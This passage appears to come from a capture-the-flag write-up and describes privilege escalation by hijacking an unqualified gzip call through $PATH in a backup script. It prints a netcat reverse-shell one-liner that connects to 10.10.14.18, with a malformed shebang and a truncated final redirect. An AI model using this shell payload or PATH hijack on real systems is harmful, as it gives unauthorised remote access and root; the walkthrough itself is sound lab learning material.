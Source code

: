 ```
-rw-r--r-- 1 m4lwhere m4lwhere  320 Jun  6 12:25 log_process.py

```
## Privilege Escalation - Exploiting access_backup.sh

Well, we might have some luck here, it looks like the script is called `gzip` to do some backup on web server's logs. <br>
The thing here is that the script only calls `gzip` without the full path of the program. So we might be able to create a malicious version of `gzip` <br>
in the `/tmp` directory (since we have read/write/execute rights there), then adding the `/tmp` directory to the beginning of `$PATH` variable, which would help us `hijacking` the `gzip` call and execute our version of it instead of the real one.

![Lauching Vim](img/launch-vim.png) <br>

### Reverse Shell Payload - Vim
---
This is the payload that I wrote in `gzip` with the `Vim` editor.
Everyone knows that `Vim` can be tedious if you don't know some basic commands haha. <br>
First of press `I` on your keyboard, this will put `Vim` in `INSERT MODE`, from this mode you can start to edit the file.<br>

I then added the following lines to the file : 

```
!#/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4443 >/tmp/
```